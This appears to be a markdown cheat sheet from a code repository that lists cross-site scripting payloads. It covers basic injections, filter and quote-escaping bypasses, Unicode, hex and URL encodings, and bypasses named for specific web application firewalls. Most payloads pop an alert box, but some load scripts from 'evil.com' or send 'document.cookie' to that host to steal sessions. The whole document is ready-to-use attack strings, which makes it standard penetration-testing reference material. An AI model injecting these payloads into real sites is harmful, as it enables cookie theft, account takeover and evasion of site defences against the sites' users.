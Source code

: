# _xss_payloads_

#_Cross-Site Scripting (XSS) Cheatsheet siii a si como te gusta _

#_XSS Locators:_

    '';!--"<XSS>=&{()}

#_Classic Payloads:_

    <svg onload=alert(1)>
    "><svg onload=alert(1)>
    <iframe src="javascript:alert(1)">
    "><script src=data:&comma;alert(1)//

#_script tag filter bypass:_

    <svg/onload=alert(1)>
    <script>alert(1)</script>
    <script     >alert(1)</script>
    <ScRipT>alert(1)</sCriPt>
    <%00script>alert(1)</script>
    <script>al%00ert(1)</script>

#_HTML tags:_

    <img/src=x a='' onerror=alert(1)>
    <IMG """><SCRIPT>alert(1)</SCRIPT>">
    <img src=`x`onerror=alert(1)>
    <img src='/' onerror='alert("kalisa")'>
    <IMG SRC=# onmouseover="alert('xxs')">
    <IMG SRC= onmouseover="alert('xxs')">
    <IMG onmouseover="alert('xxs')">
    <BODY ONLOAD=alert('XSS')>
    <INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
    <SCRIPT SRC=http:/evil.com/xss.js?< B >
    "><XSS<test accesskey=x onclick=alert(1)//test
    <svg><discard onbegin=alert(1)>
    <script>image = new Image(); image.src="https://evil.com/?c="+document.cookie;</script>
    <script>image = new Image(); image.src="http://"+document.cookie+"evil.com/";</script>

#_Other tags:_

    <BASE HREF="javascript:alert('XSS');//">
    <DIV STYLE="width: expression(alert('XSS'));">
    <TABLE BACKGROUND="javascript:alert('XSS')">
    <IFRAME SRC="javascript:alert('XSS');"></IFRAME>
    <LINK REL="stylesheet" HREF="javascript:alert('XSS');">
    <xss id=x tabindex=1 onactivate=alert(1)></xss>
    <xss onclick="alert(1)">test</xss>
    <xss onmousedown="alert(1)">test</xss>
    <body onresize=alert(1)>”onload=this.style.width=‘100px’>
    <xss id=x onfocus=alert(document.cookie)tabindex=1>#x’;</script>

#_CharCode:_
    
    <IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

#_if the input is already in script tag:_

    @domain.com">user+'-alert`1`-'@domain.com

#_AngularJS:_

    toString().constructor.prototype.charAt=[].join; [1,2]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,11 4,116,40,49,41)

#_Scriptless:_

    <link rel=icon href="//evil?
    <iframe src="//evil?
    <iframe src="//evil?
    <input type=hidden type=image src="//evil?

#_Unclosed Tags:_

    <svg onload=alert(1)//

#_DOM XSS:_

    “><svg onload=alert(1)>
    <img src=1 onerror=alert(1)>
    javascript:alert(document.cookie)
    \“-alert(1)}//
    <><img src=1 onerror=alert(1)>

#_Another case:_

    param=abc`;return+false});});alert`xss`;</script>
    abc`; Finish the string
    return+false}); Finish the jQuery click function
    }); Finish the jQuery ready function
    alert`xss`; Here we can execute our code
    </script> This closes the script tag to prevent JavaScript parsing errors

# _Restrictions Bypass_

#_No parentheses:_

    <script>onerror=alert;throw 1</script>
    <script>throw onerror=eval,'=alert\x281\x29'</script>
    <script>'alert\x281\x29'instanceof{[Symbol.hasInstance]:eval}</script>
    <script>location='javascript:alert\x281\x29'</script>
    <script>alert`1`</script>
    <script>new Function`X${document.location.hash.substr`1`}`</script>

#_No parentheses and no semicolons:_

    <script>{onerror=alert}throw 1</script>
    <script>throw onerror=alert,1</script>
    <script>onerror=alert;throw 1337</script>
    <script>{onerror=alert}throw 1337</script>
    <script>throw onerror=alert,'some string',123,'haha'</script>

#_No parentheses and no spaces:_

    <script>Function`X${document.location.hash.substr`1`}```</script>

#_Angle brackets HTML encoded (in an attribute):_

    “onmouseover=“alert(1)
    ‘-alert(1)-’

#_If quote is escaped:_

    ‘}alert(1);{‘
    ‘}alert(1)%0A{‘
    \’}alert(1);{//

#_Embedded tab, newline, carriage return to break up XSS:_

    <IMG SRC="jav&#x09;ascript:alert('XSS');">
    <IMG SRC="jav&#x0A;ascript:alert('XSS');">
    <IMG SRC="jav&#x0D;ascript:alert('XSS');">

#_Other:_

    <svg/onload=eval(atob(‘YWxlcnQoJ1hTUycp’))>: base64 value which is alert(‘XSS’)

# _Encoding_

#_Unicode:_

    <script>\u0061lert(1)</script>
    <script>\u{61}lert(1)</script>
    <script>\u{0000000061}lert(1)</script>

#_Hex:_

    <script>eval('\x61lert(1)')</script>

#_HTML:_

    <svg><script>&#97;lert(1)</script></svg>
    <svg><script>&#x61;lert(1)</script></svg>
    <svg><script>alert&NewLine;(1)</script></svg>
    <svg><script>x="&quot;,alert(1)//";</script></svg>
    \’-alert(1)//

#_URL:_

    <a href="javascript:x='%27-alert(1)-%27';">XSS</a>

#_Double URL Encode:_

    %253Csvg%2520o%256Enoad%253Dalert%25281%2529%253E
    %2522%253E%253Csvg%2520o%256Enoad%253Dalert%25281%2529%253E

#_Unicode + HTML:_

    <svg><script>&#x5c;&#x75;&#x30;&#x30;&#x36;&#x31;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x63;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x35;&#x5c;&#x75;&#x30;&#x30;&#x37;&#x32;&#x5c;&#x75;&#x30;&#x30;&#x37;&#x34;(1)</script></svg>

#_HTML + URL:_

    <iframe src="javascript:'&#x25;&#x33;&#x43;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x25;&#x33;&#x45;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;&#x25;&#x33;&#x43;&#x25;&#x32;&#x46;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x25;&#x33;&#x45;'"></iframe>

# _WAF Bypass_

#_Imperva Incapsula:_

    %3Cimg%2Fsrc%3D%22x%22%2Fonerror%3D%22prom%5Cu0070t%2526%2523x28%3B%2526%25 23x27%3B%2526%2523x58%3B%2526%2523x53%3B%2526%2523x53%3B%2526%2523x27%3B%25 26%2523x29%3B%22%3E
    <img/src="x"/onerror="[JS-F**K Payload]">
    <iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';><img/src=q onerror='new Function`al\ert\`1\``'>

#_WebKnight:_

    <details ontoggle=alert(1)>
    <div contextmenu="xss">Right-Click Here<menu id="xss" onshow="alert(1)">

#_F5 Big IP:_

    <body style="height:1000px" onwheel="[DATA]">
    <div contextmenu="xss">Right-Click Here<menu id="xss" onshow="[DATA]">
    <body style="height:1000px" onwheel="[JS-F**k Payload]">
    <div contextmenu="xss">Right-Click Here<menu id="xss" onshow="[JS-F**k Payload]">
    <body style="height:1000px" onwheel="prom%25%32%33%25%32%36x70;t(1)">
    <div contextmenu="xss">Right-Click Here<menu id="xss" onshow="prom%25%32%33%25%32%36x70;t(1)">

#_Barracuda WAF:_

    <body style="height:1000px" onwheel="alert(1)">
    <div contextmenu="xss">Right-Click Here<menu id="xss" onshow="alert(1)">

#_PHP-IDS:_

    <svg+onload=+"[DATA]"
    <svg+onload=+"aler%25%37%34(1)"

#_Mod-Security:_

    <a href="j[785 bytes of (&NewLine;&Tab;)]avascript:alert(1);">XSS</a>
    1⁄4script3⁄4alert(¢xss¢)1⁄4/script3⁄4
    <b/%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%35mouseover=alert(1)>

#_Quick Defense:_

    <input type="search" onsearch="aler\u0074(1)">
    <details ontoggle="aler\u0074(1)">

#_Sucuri WAF:_

    1⁄4script3⁄4alert(¢xss¢)1⁄4/script3⁄4
